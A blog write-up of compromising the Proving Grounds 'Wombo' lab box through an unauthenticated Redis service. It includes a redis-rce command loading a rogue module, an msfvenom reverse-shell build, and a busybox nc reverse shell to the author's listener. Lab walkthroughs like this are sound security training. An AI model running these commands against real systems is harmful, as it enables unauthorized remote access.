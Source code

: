 ```yaml
---
layout: writeup
title: Wombo - Proving Grounds
date: 2024-07-19 13:32:20 +0300
description: A Writeup of the Wombo Box from Proving Grounds
image: # /assets/images/Flu/Flu_1.png
fig-caption: # Add figcaption (optional)
tags: [LainKusunagi, Linux, Redis]
---
```


Here's box on the [LainKusanagi list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/) we have Wombo from Proving Grounds. This box is rated as Easy, and the community rates it as Intermediate. Let's see how complicated I can make it for myself. And I'll kick things off with an nmap scan revealing: 

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
6379/tcp  open  redis
8080/tcp  open  http-proxy
27017/tcp open  mongod
```

I begin by visiting ports 80 and 8080 while running directory scans in the background. Port 80 looks to be the default landing page for nginx, so we may have to wait for directory scans on that one. 

![Wombo1.png](/assets/images/Wombo/Wombo1.png){: .center-aligned width="600px"}


Port 8080 looks to be a web app called NodeBB. I click around on that for a while, but it doesn't look like there's much content here. I can create a user, and there is an upload page for a cover photo, but it does seem like it's restricted by file type. If we try uploading a php file for example, the option to crop comes before the final upload button which won't work if it's a php, so we can't make changes in Burp easily. I may have to come back to that. 

![Wombo2.png](/assets/images/Wombo/Wombo2.png){: .center-aligned width="600px"}


We also have a redis instance on port 6379. It does not require authentication, but enumerating it briefly doesn't reveal anything interesting. I'll have to try a few of the exploits from hacktricks on here like dumping the db, RCE with redis-rogue-server, PHP webshell, and template webshell. Unfortunately dumping the db reveals nothing, redis-rogue-server doesn't work, we can't upload a PHP webshell because the db is read only, and uploading a template doesn't work. 

I am a little tempted by MongoDB on port 27017, if only because the lab is called Wombo. It's just close enough. I am able to access it using mongo `192.168.185.69:27017`, but it requires authentication to show users, collections, or dbs. 

I spent a while trying to find anything to work with here. Port 80 shows nothing at all on directory scans. Port 8080 does return some directories from the NodeBB application, but there don't appear to be any juicy exploits with it, and we have no usernames or passwords to at least kick off a reasonable brute force with it. I can get no information from mongodb, it's not even clear that there actually are any non-empty db's. 

Turns out I had to combine exploits again as with [Sybaris](https://cagrigsby.github.io/writeups/2024-07-14-readys-proving-grounds/). There is an exploit called [Redis-RCE](https://github.com/Ridter/redis-rce), but the README.md links another exploit to get a required redis module from, and this link is broken. It turns out we can use the `exp.so` module from [redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server0)that we used in Sybaris and simply move it to the redis-rce folder. It's pretty annoying because I had tried to load it my kali, but this doesn't work because with Sybaris we uploaded it to an ftp server and were able to load it locally. The final command is:
`./redis-rce.py -r 192.168.185.69 -p 6379 -L 192.168.45.183 -P 6379 -f exp.so`

![Wombo3.png](/assets/images/Wombo/Wombo3.png){: .center-aligned width="600px"}

This shell had some weird behavior, for example no initial response to the `id` command, and it appeared that some commands were being returned only after a subsequent command was ran. As such, I decided to download another reverse shell and run it from this interactive shell. I used `msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.45.183 LPORT=27017 -f elf -o reverse27017.elf` and downloaded it, catching it from a penelope listener. 

![Wombo4.png](/assets/images/Wombo/Wombo4.png){: .center-aligned width="600px"}

Some other command line shells didn't work, but the busybox one actually did (`busybox nc 192.168.45.183 27017 -e /bin/bash`). I'd initially tried it over port 4444, and that wasn't going to work. 

Lessons learned: This was a pretty unsatisfying box for me. I had to combine exploits in a way that wasn't really intuitive, and I'm not sure how I would have done that without looking it up. The module we loaded could have just been packaged with the exploit rather than having a separate module associated with a broken link. So I guess the lesson is that if I need to exploit redis with a public exploit, I either need an an AMD machine or I need to remember to keep pulling the same malicious module from [redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server0). Which is indeed a lesson. 

